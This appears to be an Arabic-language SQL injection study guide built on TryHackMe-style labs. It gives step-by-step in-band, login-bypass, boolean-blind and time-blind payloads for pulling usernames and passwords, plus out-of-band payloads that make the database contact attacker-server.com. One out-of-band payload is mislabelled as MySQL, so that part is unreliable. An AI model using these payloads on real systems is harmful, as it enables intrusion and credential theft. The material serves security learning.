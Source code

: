 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


✅ ملخص سريع:

الخطوة | الهدف
------------|---------------------
' | تأكد وجود الثغرة
UNION SELECT 1,2,3 | تأكد من عدد الأعمدة
database() | جبت اسم قاعدة البيانات
information_schema.tables | جبت أسماء الجداول
information_schema.columns | جبت أسماء الأعمدة
staff_users | جبت البيانات الحساسة زي الباسورد

  
</details>






<details>
     <summary>Blind SQLI (Authentication Bypass)</summary>

      🕶️ Blind SQL Injection (الحقنة العمياء)
يعني إيه "Blind"؟
يعني مافيش رسائل خطأ، ولا داتا طالعة على الشاشة تقولك إن الهجمة نجحت.

لكن بالرغم من كده، الحقنة (injection) شغالة، بس السيرفر مابيظهرلكش حاجة مباشرة تقولك كده.

🧠 طيب نستفيد منها إزاي؟
كل اللي إحنا محتاجينه هو "رد فعل بسيط" من الموقع.
يعني مثلاً:

لو طلعلك صفحة معينة = الاستعلام نجح.

لو فضلك على نفس الصفحة = الاستعلام فشل.

وده كفاية إننا نبدأ نشتغل ونستخرج معلومات من قاعدة البيانات حتى لو بشكل بطيء.

🔓 Bypassing Authentication (تخطي تسجيل الدخول)
دي واحدة من أسهل الطرق في Blind SQLi، وممكن نكسر بيها فورم تسجيل الدخول.

🤔 إزاي بيشتغل تسجيل الدخول أصلاً؟
الموقع بيعمل استعلام بالشكل ده:

```
SELECT * FROM users WHERE username = 'ali' AND password = '123456' LIMIT 1;
```
لو فيه مستخدم بالبيانات دي، الاستعلام بيرجع صف واحد → يبقى المستخدم يدخل.

📌 إحنا نعمل إيه؟ نضحك على الاستعلام!
بدل ما نحاول نخمن Username وPassword، إحنا هنخلي الاستعلام يرجع نتيجة مهما كانت البيانات غلط.

🎯 الطريقة:
في خانة الـ Password، نكتب:

```
' OR 1=1;--
```
ده بيحوّل الاستعلام إلى:

```
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;--
```
شرحها:

'' AND '' → ده هيرجع false.

OR 1=1 → ده true دايمًا.

-- → ده بيعلّق باقي الاستعلام (يعني أي حاجة بعده مش بتتنفذ).

فالاستعلام كله بيرجع true، وكأنك سجلت دخولك بنجاح، حتى من غير Username أو Password!

✅ النتيجة:
لو الموقع معمول بشكل غير آمن، هيسمحلك بالدخول من غير بيانات صحيحة.

🛠️ ملحوظة مهمة:
لو ما نفعش:

جرب أنواع مختلفة من علامات التنصيص: " OR 1=1-- أو حتى ') OR ('1'='1.

جرب تحط القيمة في خانة الـ Username بدل Password.

🔐 ملخص سريع:



   العنصر | الوصف
   -------------|----------------
الهدف | تخطي تسجيل الدخول
نوع الهجوم | Blind SQLi
الوسيلة | استغلال منطق التحقق من صحة البيانات
الباي لود | ' OR 1=1;--
        
</details>






<details>
   <summary>Blind SQLi - (Boolean Based)</summary>

   🕵️‍♂️ يعني إيه Boolean-Based Blind SQL Injection؟
النوع ده من الـ SQLi بيشتغل على إنك ما بتاخدش بيانات واضحة من السيرفر، لكن السيرفر بيرد عليك بـ حاجة ثنائية (صح أو غلط)، زي:

true / false

1 / 0

yes / no

أو مثلًا تظهر صفحة أو ما تظهرش.

والحيلة هنا إنك تراقب رد الفعل على الاستعلام، مش البيانات نفسها.

🎯 المثال العملي:
رابط زيه كده:

```
https://website.thm/checkuser?username=admin
```
الرد بيكون حاجة شبه:

```
{"taken":true}
```
يعني اسم المستخدم موجود.

لو كتبنا:

```
https://website.thm/checkuser?username=admin123
```
هيكون الرد:

```
{"taken":false}
```
يعني الاسم مش موجود.

فهمنا كده إن فيه API بتشيك هل اسم المستخدم موجود ولا لأ.

🛠️ الاستعلام اللي السيرفر بيشغله غالبًا شكله كده:
```
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
واحنا بنقدر نتحكم في %username% من خلال الرابط.

✅ الهدف الأول: نعرف عدد الأعمدة
نبدأ نضيف استعلام UNION، ونجرب نعرف عدد الأعمدة في الجدول.
نجرب مثلاً:

```
admin123' UNION SELECT 1;--
```
لو السيرفر رجّع false → يبقى عدد الأعمدة مش 1.
نزيد شوية:

```
admin123' UNION SELECT 1,2;--
```
برضو false → مش 2.

لحد ما نوصل:

```
admin123' UNION SELECT 1,2,3;--
```
وهنا هنلاقي {"taken": true}
يبقى كده عرفنا إن الجدول بيرجع 3 أعمدة. ✅

🔍 الهدف الثاني: نعرف اسم قاعدة البيانات
نستخدم الدالة database() اللي بترجع اسم قاعدة البيانات الحالية.

نجرب حاجة بسيطة:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
% معناها أي حاجة، فالنتيجة هتبقى true.

نجرب نحصر أكتر:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```
لو النتيجة false → يبقى الاسم مش بيبدأ بـ a.

نكمل نحاول بالحروف:

b%

c%

... لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```
يعني الاسم بيبدأ بـ s.

نبدأ نحاول حرف حرف:

sa%

sb%

sq%

...

لحد ما نوصل لـ sqli_three ✅

🧱 الهدف الثالث: نكتشف أسماء الجداول
نروح على information_schema.tables ونستخدم نفس الطريقة:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'a%';--
```
لو false → نغير الحرف.

نجرب لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name='users';--
```
يبقى فيه جدول اسمه users ✅

🧩 الهدف الرابع: نكتشف أسماء الأعمدة في جدول users
نروح على:

```
information_schema.columns
```
ونجرب:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'a%';--
```
كل مرة نكتشف عمود، نستبعده عشان نكمل نجيب الباقي:

```
... AND column_name != 'id'
```
وهكذا نكررها لحد ما نكتشف الأعمدة:

id

username

password ✅

🔐 الهدف الأخير: نكتشف بيانات المستخدم (اسم وكلمة مرور)
نبدأ باسم المستخدم:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--
```
نكرر لحد ما نعرف إن فيه username اسمه admin.

بعد كده نجيب الباسورد:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نجرب حرف حرف لحد ما نوصل للباسورد الكامل:

```
3845 ✅
```
🎉 النتيجة:
قدرنا من غير ما نشوف بيانات مباشرة نعرف:

اسم قاعدة البيانات.

اسم الجدول.

أسماء الأعمدة.

اسم المستخدم.

الباسورد.

وكل ده عن طريق الملاحظة الذكية لردود السيرفر.
   
   
</details>













<details>
   <summary>Blind SQLi - (Time Based)</summary>

   ⏱️ إيه هو Time-Based Blind SQL Injection؟
النوع ده بيشتغل على مبدأ:

"لو الاستعلام اتحقق صح، نفّذ SLEEP(x) واتأخر في الرد."

ولو ما اتأخرش، يبقى الاستعلام فشل أو ما تنفذش بالطريقة اللي إحنا عايزينها.

🔧 بنستخدم فين SLEEP()؟
في قواعد البيانات زي MySQL، فيه دالة اسمها SLEEP(5) بتخلّي السيرفر يستنى 5 ثواني قبل ما يرد.

💡 الهدف الأول: نعرف عدد الأعمدة
بنبدأ باستعلام بسيط زي:

```
admin123' UNION SELECT SLEEP(5);--
```
لو السيرفر ما اتأخرش → يبقى الاستعلام غلط.

نزوّد عمود كده:

```
admin123' UNION SELECT SLEEP(5), 2;--
```
لو حصل تأخير 5 ثواني → يبقى عدد الأعمدة = 2 ✅

لو ما حصلش، نزود:

```
admin123' UNION SELECT SLEEP(5), 2, 3;--
```
ونكمل لحد ما نحصل على التأخير → ده معناه إننا عرفنا عدد الأعمدة.

🧱 زي boolean-based، نكمل بنفس الطريقة لكن بنقيس الوقت:
🧠 اكتشاف اسم قاعدة البيانات:
نستخدم database() ومعاها شرط LIKE وسليب:

```
admin123' UNION SELECT SLEEP(5), 2 WHERE database() LIKE 's%';--
```
لو حصل تأخير → يبقى الاسم بيبدأ بـ s
لو ما حصلش → جرّب حرف تاني (a%, b%, c%, ...)

نكمّل حرف حرف:

sa%

sql%

sqli_t% ... لحد ما نوصل لـ sqli_three ✅

🧩 اكتشاف الجداول:
نروح على information_schema.tables ونكتب:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--
```
لو حصل تأخير → فيه جدول بيبدأ بـ u.

نجرّب أكتر لحد ما نجيب:

```
table_name = 'users'
```
🧠 اكتشاف الأعمدة:
نكرر نفس الفكرة:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'u%';--
```
كل مرة نكتشف عمود نعمل:

```
... AND column_name != 'username'
```
ونكررها لحد ما نكتشف: id, username, password ✅

🔓 استخراج بيانات الدخول:
أولًا: نجيب اسم المستخدم
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```
لحد ما نوصل لـ admin

ثانيًا: نجيب الباسورد
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نكمل:

38%

384%

3845 ✅

🎉 الخلاصة:
بالـ Time-Based SQLi:

بنكتشف الأعمدة من خلال زمن التأخير.

بنكرر نفس خطوات Boolean-Based لكن بذكاء مع الزمن.

الاختبار الحقيقي في المثابرة والتجريب واحدة واحدة.
   
</details>









<details>
   <summary>Out-of-Band SQLi</summary>

   📡 إيه هو Out-of-Band SQLi؟
النوع ده مش بيعتمد على ظهور بيانات مباشرة في الصفحة (زي In-Band)
ولا على تأخيرات أو استجابات منطقية (زي Boolean أو Time-based)

إنما بيعتمد على فكرة مختلفة شوية:

"أنا هبعت حاجة في الاستعلام تخلي قاعدة البيانات تتصل بجهازي أو سيرفر خارجي، وتبعتلي منه البيانات!"

يعني فيه قناتين:

🎯 قناة الهجوم = الريكوست اللي انت بعتّه للسيرفر (مثلاً POST أو GET).

📥 قناة التجميع = الاتصال اللي بيحصل من قاعدة البيانات لجهازك، زي DNS أو HTTP.

🧠 ازاي بيحصل الهجوم ده؟
خلينا نوضحها بخطوات:

🔍 تكتشف نقطة SQLi (زي أي نوع تاني).

💉 تكتب Payload خاص بيستخدم دوال زي:

LOAD_FILE()

xp_dirtree (في MSSQL)

UTL_HTTP.REQUEST() (في Oracle)

أو dnslookup() لو قاعدة البيانات تدعمها.

🌐 الاستعلام يجبر قاعدة البيانات تبعت طلب خارجي (DNS أو HTTP) لسيرفر انت بتتحكم فيه.

🛰️ انت بتراقب السيرفر ده، وتشوف البيانات وهي بتجيلك من الـ payload.

🧪 مثال عملي: (MySQL)
لو عندك دومين أو سيرفر انت بتملكه زي:

```
attacker-server.com
```
تكتب في خانة vulnerable:


```
' UNION SELECT LOAD_FILE('\\\\attacker-server.com\\data')--
```
أو (لو تشتغل مع MySQL/DNS):

```
'; SELECT extractvalue(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker-server.com"> %ext;]>'),'/');--
```
ده يجبر قاعدة البيانات إنها تحاول تفتح اتصال HTTP لسيرفرك، وفيه ممكن تحط البايلود يبعَتلك داتا.

💡 في MSSQL:
```
'; exec master..xp_dirtree '\\attacker-server.com\share';--
```
ده بيخلي السيرفر يحاول يتصل على SMB Share، وده انت بتراقبه من جهازك أو سيرفرك.

🛠️ إزاي أراقب الطلبات دي؟
تشغّل أداة على جهازك أو سيرفرك زي:

🧰 Burp Collaborator أو

🛡️ Responder (لـ SMB)

🐍 أو حتى Script Python بـ Flask أو SimpleHTTPServer

🔬 DNS server مخصص، زي dnslog.cn

📛 ملحوظات مهمة:
النوع ده مش دايمًا بيشتغل، لأنه بيعتمد على:

إعدادات قاعدة البيانات

وجود صلاحيات كافية

إن الـ firewall ميسدّش الـ outgoing requests


🔐 الخلاصة:


العنصر | النوع
----------|----------------
طريقته | قناة هجوم + قناة استقبال خارجي
أدوات مساعدة | DNSLog / Burp Collaborator / Responder
يعتمد على | إرسال بيانات خارجية (HTTP, DNS, SMB)
فعال لما؟ | لما باقي الأنواع ماتديش أي feedback


   
</details>


























